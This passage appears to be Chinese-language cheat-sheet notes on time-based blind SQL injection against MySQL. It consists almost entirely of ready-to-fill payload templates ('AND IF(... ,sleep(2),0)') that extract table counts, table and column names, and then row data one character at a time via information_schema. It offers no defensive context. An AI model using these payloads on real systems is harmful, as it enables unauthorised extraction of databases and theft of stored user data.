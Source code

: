 #### 判断表的数量

```mysql
AND IF((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='数据库名')=2,sleep(2),0)
```

#### 判断表名长度

```mysql
AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=7,sleep(2),0)
```

#### 判断表名

```mysql
AND IF((SELECT ASCII(SUBSTR(table_name,第x位,1)) FROM information_schema.tables WHERE table_schema='数据库名' limit 第x个表,1)=ascii码,sleep(2),0)
```

#### 判断字段的数量

```mysql
AND IF((SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名')=3,sleep(2),0)
```

#### 判断字段名长度

```mysql
AND IF((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=2,sleep(2),0)
```

#### 判断字段名

```mysql
AND IF((SELECT ASCII(SUBSTR(column_name,第x位,1)) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=ascii码,sleep(2),0)
```

#### 判断数据数量

```mysql
AND IF((SELECT COUNT(字段名) FROM 数据库名.表名)=1,sleep(2),0)
```

#### 判断数据内容长度

```mysql
AND IF((SELECT LENGTH(字段名) FROM 数据库名.表名 limit 第x条数据,1)=1,sleep(2),0)
```

#### 判断数据内容

```mysql
AND IF((SELECT ASCII(SUBSTR(字段名,第x位,1)) FROM 数据库名.表名 limit 第x条数据,1)=ascii码,sleep(2),0)
```
